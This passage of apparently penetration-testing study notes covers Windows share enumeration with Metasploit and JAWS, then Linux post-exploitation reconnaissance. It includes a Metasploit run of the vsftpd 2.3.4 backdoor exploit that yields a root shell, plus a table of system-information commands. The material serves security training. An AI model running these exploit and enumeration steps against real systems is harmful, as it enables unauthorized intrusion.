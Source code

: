 **enum\_shares**

```bash
msf6> use post/windows/gather/enum_shares
msf6> set session 1
msf6> run
```

**JAWS**

```powershell
PS> git clone https://github.com/411Hall/JAWS.git
PS> cd JAWS
PS> .\jaws-enum.ps1
```

### Linux local enumeration

#### System information

After gaining initial access to a target system, it is always important to learn more about the system like, what OS is running as well as the OS version. This information is very useful as it gives us an idea of what we can do and what type of exploits we can run.

What are we looking for?

* Hostname
* Distribution & distribution release version
* Kernel version & architecture
* CPU information
* Disk information & mounted drives
* Installed packages/software

```bash
kali@kali> nmap -sV 192.8.246.3
kali@kali> msfconsole

msf6> setg rhosts 192.8.246.3
msf6> use exploit/unix/ftp/vsftpd_234_backdoor
msf6> run

# CTRL+Z

msf6> sessions -u 1
msf6> sessions 2

meterpreter> shell
/bin/bash -i
root@victim> hostname
```

| Command             | Description                                               |
| ------------------- | --------------------------------------------------------- |
| `hostname`          | The computer name.                                        |
| `cat /etc/issue`    | The OS version.                                           |
| `cat /etc/*release` | The OS releases.                                          |
| `uname -a`          | Display hostname, kernel version, datetime, architecture. |
| `uname -r`          | Kernel version.                                           |
| `env`               | Environment variables for the current user.               |
| `lscpu`             | CPU information.                                          |
| `free -h`           | RAM consumed.                                             |
| `df -h`             | List of file systems.                                     |